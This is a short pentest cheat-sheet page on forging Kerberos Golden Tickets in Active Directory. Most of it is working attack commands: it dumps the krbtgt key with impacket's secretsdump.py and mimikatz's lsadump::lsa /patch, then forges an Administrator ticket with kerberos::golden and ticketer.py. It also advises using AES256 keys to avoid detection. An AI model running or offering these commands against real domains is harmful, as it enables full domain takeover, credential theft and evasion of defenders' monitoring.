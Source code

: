 #impacket #mimikatz 
- TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- If we get hold of this key, we can forge TGTs for any user subsequently getting access to any service as any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [[DCSync]] attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
- Using mimikatz to get the krbtgt hash and the create TGT
```powershell
lsadump::lsa /patch

kerberos::golden /User:Administrator /domain:<domain-FQDN> /sid:<domain-sid> /krbtgt:<kerberos-key> /id:<id> /groups:<group> /startoffset:0 /endin:600 /renewmax:10080 [/ptt(injects TGT in memory)|/ticket(saves ticket to file)]
```
- To issue TGTs from the keys, impacket's ticketer.py can be used:
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
- AES256 keys should be used to avoid any alerts or detection.